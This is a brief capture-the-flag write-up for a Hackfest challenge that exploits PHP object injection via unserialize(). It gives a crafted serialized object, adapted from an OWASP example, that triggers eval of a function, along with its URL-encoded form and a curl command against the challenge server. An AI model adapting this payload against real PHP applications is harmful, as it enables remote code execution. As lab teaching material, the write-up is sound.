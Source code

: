 
 PHP object Injection via unserialize : </br>
We are greeted with a php code source and a web page where we can request a $_GET['msg'] message /</br>
after analysing the code source i concluded that i need to exucte the print_flag() function , so we need to eval('print_flag();');</br>
even that we have acess to the magic _toString() funtion , we can't access to the priavte $hook attribute .so here is the vulnerability .

For those who have no idea about unserialize() vulnerabilities:
Serialization vulnerabilities are not just native to PHP. These vulnerabilities exist in different languages under different names.</br> For example, we’ve heard a lot about Java deserialization vulnerabilities which can lead to code execution. Similar vulnerabilities exist in Python module pickle which can lead to code execution while unpickling the data.

So i just get the payload from owasp exemple n 2 :</br>
https://www.owasp.org/index.php/PHP_Object_Injection </br>
<code> data=O:8:"Example2":1:{s:14:"Example2 hook";s:10:"phpinfo();";} </code> </br>
and i changed some parameters in the hackfest serilazed object, such as stirng lengths to conforme it with our inital php code :</br>
<code> msg=O:8:"Hackfest":1:{s:14:"Hackfest hook";s:13:"print_flag();";} </code>
with some url encode : </br>
msg=O%3A8%3A%22Hackfest%22%3A1%3A%7Bs%3A14%3A%22Hackfest%20hook%22%3Bs%3A13%3A%22print_flag()%3B%22%3B%7D%20
easy just  curl http://challenge.hackfest.tn:8080?msg=O%3A8%3A%22Hackfest%22%3A1%3A%7Bs%3A14%3A%22Hackfest%20hook%22%3Bs%3A13%3A%22print_flag()%3B%22%3B%7D%20 | grep 'hackfest'
